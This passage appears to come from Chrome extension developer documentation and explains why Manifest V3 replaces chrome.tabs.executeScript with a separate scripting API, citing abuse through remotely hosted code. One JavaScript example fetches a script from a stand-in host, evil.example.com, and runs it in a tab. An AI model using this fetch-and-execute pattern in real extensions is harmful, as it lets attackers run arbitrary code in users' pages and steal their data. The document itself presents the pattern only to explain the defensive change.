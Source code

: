 Another complicating factor is that the `tabs` permission is not well understood. While many other
permissions restrict access to a given API (e.g. [`storage`][storage-api]), this permission is a bit
unusual in that it only grants the extension access to sensitive properties on Tab instances (and by
extension also impacts the Windows API). Understandably, many extension developers mistakenly think
they need this permission in order to access methods on the Tabs API like `chrome.tabs.create` or,
more germanely, `chrome.tabs.executeScript`. Moving functionality out of the Tabs API helps clear up
some of this confusion.

### Breaking changes

When designing Manifest V3, one of the major issues that we wanted to address was abuse and malware
enabled by "remotely-hosted code" - code that is executed, but not included in the extension
package. It's common for abusive extension authors to execute scripts fetched from remote servers to
steal user data, inject malware, and evade detection. While good actors also use this capability, we
ultimately felt that it was simply too dangerous to remain as it was.

There are a couple different ways that extensions can execute unbundled code, but the relevant one
here is the Manifest V2 `chrome.tabs.executeScript` method. This method allows an extension to
execute an arbitrary string of code in a target tab. This, in turn, means that a malicious developer
can fetch an arbitrary script from a remote server and execute it inside any page the extension can
access. We knew that if we wanted to address the remote code problem that we would have to drop this
feature.

```js
(async function() {
  let result = await fetch('https://evil.example.com/malware.js');
  let script = await result.text();

  chrome.tabs.executeScript({
    code: script,
  });
})();
```

We also wanted to clean up some other, more subtle issues with the Manifest V2 version's design, and
make the API a more polished and predictable tool.

While we could have changed the signature of this method within the Tabs API, we felt that between
these breaking changes and the introduction of new capabilities (covered in the next section), a
clean break would be easier for everyone.

### Expanding scripting capabilities

Another consideration that fed into the Manifest V3 design process was a desire to introduce
additional scripting capabilities to Chrome's extension platform. Specifically, we wanted to add
support for dynamic content scripts and to expand the capabilities of the `executeScript` method.


[content-scripts]: https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Content_scripts
[iframe-demo]: https://simple-iframe-demo.glitch.me/
[scripting-api]: /docs/extensions/reference/scripting/
[scripting-executescript]: /docs/extensions/reference/scripting/#method-executeScript
[storage-api]: #link-to-storage-api-docs
[tabs-api]: /docs/extensions/reference/tabs/
[tabs-executescript]: /docs/extensions/reference/tabs/#method-executeScript
[tabs-insertcss]: /docs/extensions/reference/tabs/#method-insertCSS
[mv3-docs]: /docs/extensions/mv3/intro/